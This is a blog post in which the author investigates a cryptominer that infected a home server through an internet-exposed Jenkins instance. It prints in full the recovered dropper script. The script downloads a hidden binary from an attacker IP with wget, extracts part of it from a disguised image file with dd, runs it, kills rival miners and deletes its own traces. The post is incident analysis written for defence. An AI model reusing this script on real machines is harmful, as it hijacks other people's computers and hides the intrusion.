 Date: 2017-07-18 07:44
Category: Technical
Title: My Jenkins was hacked
Tags: mining, hack, jenkins

The story is about infecting poor Atom-based gateway host with mining software through Jenkins web UI.

Couple of days ago I noticed strange noise from my home gateway fans. The reason was all the 8 cores were 100% loaded with processes named `irq` and `irqbalanc1`.

First, I just checked the source and decided that those processes were spawned by some Jenkins job. Sadly I got no time to investigate, so 8 hours later host was infested again, but I didn't knew it yet.

Days later I finished my real life stuff and remembered about strange load. Then I went to check the logs, temperature graph, etc. Later I would know that my Jenkins web UI was exposed to the internet to let GitHub hooks start jobs and host got infested using this interface. As for now, I just fixed docker-related iptables rules to restrict access.

And here comes the interesting part, see the investigation:

```
$ ps auxfww
root      1972  0.1  0.1 782452 56964 ?        Ssl  Jul04  26:19 /usr/bin/dockerd -H fd://
root      2265  0.0  0.0 754852 13808 ?        Ssl  Jul04  15:42  \_ containerd -l unix:///var/run/docker/libcontainerd/docker-containerd.sock --shim containerd-shim --metrics-interval=0 --start-timeout 2m --state-dir /var/run/docker/libcontainerd/containerd --runtime runc
root      1431  0.0  0.0 356400  7964 ?        Sl   Jul16   0:00  |   \_ containerd-shim 771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f /var/run/docker/libcontainerd/771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f runc
user      1451  0.0  0.0   1104     4 ?        Ss   Jul16   0:05  |       \_ /bin/tini -- /usr/local/bin/jenkins.sh
user      1475  0.1  9.3 14247684 3065036 ?    Sl   Jul16   5:57  |           \_ java -jar /usr/share/jenkins/jenkins.war
user       888  0.0  0.0   4332  1548 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     19520  0.0  0.0  12816   980 ?        S    Jul16   0:00  |               |   \_ grep -v grep
user     29026  0.0  0.0   4332  1576 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     29158  691  0.0 677948 20696 ?        Sl   Jul16 14660:11  |                   \_ /var/tmp/irqbalanc1 -c /var/tmp/httpd.conf
```

Of course, file was deleted after execution, so here i restore it from RAM:

```
lsof -p 29026
cp /proc/29026/fd/10 ~/fraud.sh
cat ~/fraud.sh
```

See it's getting files from IP 185.162.10.190 (hosting company already got abuse ticket) and extracting code form those via dd using specific offset. Kinda smart.

```
#!/bin/sh
pkill -f apaceha
pkill -f cryptonight
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs ps --ppid|awk '{print $1}'|grep -v PID|xargs kill -9
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs kill -9
ps -u jenkins|grep sh|grep -v irq|grep -v jenkins|grep -v grep|awk '{print $1}'|xargs kill -9
#ps ax|grep httpd.conf|grep -v irq|grep -v grep|grep tmp|awk '{print $1}'|xargs kill -9
ps -ef|grep .sh|grep tmp|grep -v irq|grep -v grep|grep -v gosh|cut -c 9-15|xargs kill -9
pkill -f stratum
pkill -f mixnerdx
pkill -f performedl
# ... tons of various pkill calls here ...
ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;
rm -rf /tmp/httpd.conf
rm -rf /tmp/conn
rm -rf /tmp/conns
rm -f /tmp/irq.sh
rm -f /tmp/irqbalanc1

ps auxf|grep -v grep|grep "irqbalanc1"|grep defunct|awk '{print $2}'|xargs kill -9

sleepTime=20

ps -fe|grep irqbalanc1 |grep -v defunct|grep -v grep
if [ $? -ne 0 ]
    then
    echo "start process....."

    cat /proc/cpuinfo|grep aes>/dev/null
    if [ $? -ne 1 ]
        then
        wget 185.162.10.190/miu1.png -O /tmp/conn
        dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
    else
        wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
    fi

    chmod +x /tmp/irqbalanc1
    wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
    nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
    sleep 5
    rm -rf /tmp/httpd.conf
    rm -rf /tmp/conn
    rm -rf /tmp/conns
    rm -f /tmp/irq.sh
    rm -f /tmp/irq
    rm -f /tmp/irqbalanc1
    while [ 0 -lt 1 ]
    do
        ps -fe| grep irqbalanc1 |grep -v defunct| grep -v grep
        if [ $? -ne 0 ]
            then
            echo "process not exists ,restart process now... "
            cat /proc/cpuinfo|grep aes>/dev/null
            if [ $? -ne 1 ]
                then
                wget 185.162.10.190/miu1.png -O /tmp/conn
                dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
            else
                wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
            fi

            chmod +x /tmp/irqbalanc1
            wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
            nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
            sleep 5
            rm -rf /tmp/httpd.conf
            rm -rf /tmp/conn
            rm -rf /tmp/conns
            rm -f /tmp/irq.sh
            rm -f /tmp/irq
            rm -f /tmp/irqbalanc1
            echo "restart done ..... "
        else
            echo "process exists , sleep $sleepTime seconds "
            pkill -f cryptonight
            pkill -f apaceha
            pkill -f mixnerdx
            pkill -f performedl
            # ... tons of various pkill calls here ...
            ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;

        fi
        sleep $sleepTime
    done


else
    echo "runing....."
```

Then script connects to 139.60.160.248 (it is located in `httpd.conf`) and do stuff, using your CPU. I'm also sending abuse to this company to just let them know someone is playing dirty out there. Not sure if they could block this particular IP or something.

I also thoght that it is possible to find wallet accepting address within binary file (as there is no such in config file), but got no luck. Probably it could be located inside `/proc/*/cmdline` or around, but now it's too late as the process was killed.

Please let me know if you got ideas how to continue investigation.

Update: 24 hours after my abuse, header malware host was locked by it's hosting provider. Hoorray!
